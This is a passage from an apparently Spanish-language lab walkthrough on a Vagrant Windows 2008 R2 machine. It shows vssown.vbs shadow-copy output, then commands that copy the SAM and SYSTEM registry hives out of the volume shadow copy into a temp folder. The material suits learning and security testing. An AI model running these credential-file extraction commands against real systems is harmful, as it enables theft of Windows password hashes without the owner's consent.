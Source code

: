     [*] Plex:                False
    [*] Provider ID:         {B5946137-7B9F-4925-AF80-51ABD60B20D5}
    [*] Service machine:     vagrant-2008R2
    [*] Set ID:              {9D5F48C4-0B60-4C76-B47E-97A018A6E1CB}
    [*] State:               12
    [*] Transportable:       False
    [*] Volume name:         \\?\Volume{3aefe34c-7b16-11e7-a4cb-806e6f6e6963}\
    ```

- **Nota**: `cscript` es el intérprete para ejecutar archivos `.vbs`. Este comando le indica a Windows que ejecute el script VBS.


- El script `vssown.vbs` generará una salida con la ubicación de la copia de sombra. Anotar esta ruta, ya que será la ubicación donde podremos acceder a los archivos `SAM` y `SYSTEM` sin restricciones. En el comando anterior, la ruta es:

    `\\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1`

### 5.5. Copia los Archivos SAM y SYSTEM

- Ahora que tenemos la ruta de la copia del volumen shadow, entrar en modo `cmd`:

    ```shell
    ssh vagrant@10.0.2.15

    -sh-4.3$ cmd

    C:\Users\vagrant>cd C:\Windows\Temp
    cd C:\Windows\Temp
    ```

- Y copiar los archivos SAM y SYSTEM del volumen shadow:

    ```shell
    C:\Windows\Temp>copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\windows\system32\config\SAM C:\Windows\Temp\SAM
    copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopyX\windows\system32\config\SAM C:\Windows\Temp\SAM
    1 file(s) copied.

    C:\Windows\Temp>copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\System32\config\SYSTEM C:\Windows\Temp\SYSTEM
    copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopyX\Windows\System32\config\SYSTEM C:\Windows\Temp\SYSTEM
    1 file(s) copied.
    ```

- Salimos del modo `cmd`

    ```shell
    C:\Windows\Temp>exit
    exit
    ```

- **Nota**: Reemplazar `HarddiskVolumeShadowCopyX` con el número correspondiente que el script vssown.vbs nos indicó.
